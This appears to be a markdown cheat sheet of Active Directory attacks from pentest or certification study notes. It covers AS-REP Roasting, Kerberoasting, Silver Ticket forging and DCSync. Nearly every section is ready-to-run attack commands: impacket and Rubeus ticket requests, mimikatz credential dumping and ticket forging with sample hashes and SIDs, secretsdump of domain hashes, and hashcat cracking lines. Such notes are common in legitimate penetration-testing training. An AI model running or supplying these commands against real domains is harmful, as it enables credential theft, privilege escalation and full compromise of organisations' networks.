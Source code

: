 ## AS-REP Roasting
**Note:** Only works if Kerberos Pre-authentication is disabled (which it isn't by default). Does not require any Domain credentials.
###### Check for Kerberos Preauthentication (PowerView)
`Get-DomainUser -PreauthNotRequired`
###### Check for Kerberos Preauthentication (Impacket)
`impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete`
###### Check for Kerberos Preauthenticaion (Impacket) All Users
`impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/ -no-pass -request`
###### WriteProperty
If we only have WriteProperty over an account instead of GenericAll, we can make it become AS-REP Roastable
`Set-ADUser -Identity "victimuser" -UserAccountControl 4194304`
###### Attack from Kali
``impacket-GetNPUsers -dc-ip 192.168.50.70  -request -outputfile hashes.asreproast corp.com/pete``
###### Attack from Windows
`.\Rubeus.exe asreproast /nowrap`
**Note:** Hashes are automatically in Hashcat format
###### Crack Hashes
`sudo hashcat -m 18200 hashes.asreproast rockyou.txt -r best64.rule --force`

---
## Kerberoasting
**Note:** Requires valid Domain credentials
###### Set SPN for User if we control User Object
`setspn -a <SPN> <UserAccount>`
`setspn -a http/myservice jen`
###### Delete SPN
`setspn -d service/name hostname`
###### Attack from Kali
`sudo impacket-GetUserSPNs -request -dc-ip 192.168.142.70 corp.com/pete`
**Note:** If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so.
`sudo ntpdate <domain-controller-ip>`
`sudo rdate -n <domain-controller-ip>`
###### Attack from Windows
`.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
###### Crack Hashes
`sudo hashcat -m 13100 hashes.kerberoast rockyou.txt -r best64.txt --force`

---
## Silver Ticket Attack
Authenticate against services.
###### Required Info:
- SPN password hash (NTLM hash of the service account)
- Domain SID (Security Identifier of the domain)
- Target SPN (The service you want to forge a ticket for, e.g., `CIFS`, `HTTP`, `MSSQLSvc`)
###### Obtain hash:
`.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit`
**Note:** This generates a lot of output. Identify the password hash of the target service account.
###### Obtain SID
`whoami /user`
###### Obtain SPN (PowerView)
``Get-NetUser -SPN | select samaccountname,serviceprincipalname``
Depends on the service. For HTTP it might be something like `HTTP/web04.corp.com:80`
###### Forge Ticket
`kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:peteadmin`
**Note:** Make sure to remove the RID (last 4 digits) from the SID
`rc4:` is the password hash of the service account
###### Access the Service
`dir \\Files04.shellcorp.com\C$`
**Note:** This will give you privileged access on the device in the context of the service. For MSSQL, this means you can execute OS Commands via XP_CMDSHELL. For HTTP, it depends on the function of the web application.
If successful, from the perspective of the ISS application, the current user will be both built-in local admin and a member of privileged groups. This can be seen in the output under `User Id` and `Groups Id`.


---
## Domain Controller Synchronisation
Dump hashes from the DC.
###### Requirements
- Local Admin (for mimikatz)
- User needs to have the following rights:
	- Replicating Directory Changes
	- Replicating Directory Changes All
	- Replicating Directory Changes in Filtered Set
###### Attack from Kali
`impacket-secretsdump -just-dc-user Administrator corp.com/<username>:"<password>"@<domain-controller-ip>`
###### Extract All Hashes
`impacket-secretsdump -just-dc corp.com/<username>:<password>@<domain-controller-ip>`
###### Extract Hashes Locally
`impacket-secretsdump -sam SAM -system SYSTEM LOCAL`
###### Attack from Windows
`.\mimikatz.exe "privilege::debug" "lsadump::dcsync /user:corp\Administrator"`
This returns an NTLM hash for cracking.
###### Crack
`hashcat -m 1000 hashes.dcsync rockyou.txt -r best64.rule --force`